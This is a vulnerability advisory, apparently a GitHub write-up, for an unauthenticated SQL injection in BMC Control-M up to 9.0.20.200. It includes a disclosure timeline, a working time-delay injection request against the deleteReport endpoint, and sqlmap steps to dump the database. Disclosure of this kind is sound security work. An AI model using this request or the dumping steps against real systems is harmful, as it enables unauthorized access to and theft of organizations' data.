 # BMC Control-M Unauthenticated SQL Injection
**BMC Control-M Unauthenticated SQL Injection Version < 9.0.20.200**

**Timeline:**      
**Vulnerability reported to vendor:** 26.08.2022     
**New fixed 9.0.21 version released:** 12.09.2022    
**Patch for version 9.0.20.200 released:** 21.12.2022     
**Disclosure:** 05.06.2023
**Additional Information from Vendor:** Version 9.0.20 requires two patches 9.0.20.220 and then 9.0.20.224 to fix this vulnerability

**Affected Products:**   
BMC Control-M software up to (including) 9.0.20.200 .
Vulnerability found and confirmed in version 9.0.20.100, information about patch in version 9.0.20.200 comes from the vendor.



BMC Control-M software versions up to (including) 9.0.20.200 are vulnerable to Unauthenticated SQL Injection.    
Vulnerable parameter _report-id_ is present within _/RF-Server/report/deleteReport_ endpoint.    

Below is the Proof of Concept request which triggers a 10 seconds delay:
```
DELETE /RF-Server/report/deleteReport?report-id=’+waitfor+delay+’0:0:10’--
Host: [REDACTED]
Connection: close
user-id: X
Accept: application/json, text/plain, */*
server-name:
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: X
```
Additional Info: _Cookie_ and _user_id_ headers must be present, but the value can be random.     
Screenshot from BurpSuite:    
<img src="/BurpSuitePoC.jpg">

**Steps to dump the database:**   
Save the above request (without the payload) to a file request.txt :    
```
DELETE /RF-Server/report/deleteReport?report-id=1
Host: [REDACTED]
Connection: close
user-id: X
Accept: application/json, text/plain, */*
server-name:
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: X
```
Execute following _sqlmap_ command:    
```
sqlmap -r request.txt -p report-id —-no-cast —-dbs 
```
Screenshot of extracted database structure:   
<img src="/SqlmapPoC.png">


